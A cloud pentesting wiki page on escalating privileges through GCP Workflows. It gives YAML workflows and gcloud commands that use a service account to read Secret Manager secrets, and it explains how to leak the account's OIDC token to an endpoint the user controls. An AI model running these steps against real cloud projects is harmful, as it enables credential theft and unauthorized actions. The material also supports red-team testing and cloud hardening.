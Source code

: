 # GCP - Workflows Privesc

## Workflows

Basic Information:

[[../gcp-services/gcp-workflows-enum.md]]

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Afaik it's not possible to get a shell with access to the metadata endpoint containing the SA credentials of the SA attacked to a Workflow. However, it's possible to abuse the permissions of the SA by adding the actions to perform inside the Workflow.

It's possible to find the documentation of the connectors. For example, this is the [**page of the Secretmanager connector**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** In the side bar it's possible to find several other connectors.

And here you can find an example of a connector that prints a secret:

```yaml
main:
  params: [input]
  steps:
    - access_string_secret:
        call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
        args:
          secret_id: secret_name
          version: 1
          project_id: project-id
        result: str_secret
    - returnOutput:
        return: "${str_secret}"
```

Update from the CLI:

```bash
gcloud workflows deploy <workflow-name> \
    --service-account=email@SA \
    --source=/path/to/config.yaml \
    --location us-central1
```

If you get an error like `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`, just **wait a minute and try again**.

If you don't have web access it's possible to trigger and see the execution of a Workflow with:

```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```

> [!CAUTION]
> You can also check the output of previous executions to look for sensitive information

Note that even if you get an error like `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` because you don't have that permission, the workflow has been generated.

### Leak OIDC token (and OAuth?)

According [**to the docs**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) it's possible to use workflow steps that will send an HTTP request with the OAuth or OIDC token. However, just like in the case of [Cloud Scheduler](gcp-cloudscheduler-privesc.md), the HTTP request with the Oauth token must be to the host `.googleapis.com`.

> [!CAUTION]
> Therefore, it's **possible to leak the OIDC token by indicating a HTTP endpoint** controlled by the user but to leak the **OAuth** token you would **need a bypass** for that protection. However, you are still able to **contact any GCP api to perform actions on behalf the SA** using either connectors or HTTP requests with the OAuth token.

#### Oauth

```yaml
    - step_A:
      call: http.post
      args:
          url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
          auth:
              type: OAuth2
              scopes: OAUTH_SCOPE
```

#### OIDC

```yaml
    - step_A:
      call: http.get
      args:
          url: https://us-central1-project.cloudfunctions.net/functionA
          query:
              firstNumber: 4
              secondNumber: 6
              operation: sum
          auth:
              type: OIDC
              audience: OIDC_AUDIENCE
```

### `workflows.workflows.update` ...

With this permission instead of `workflows.workflows.create` it's possible to update an already existing workflow and perform the same attacks.

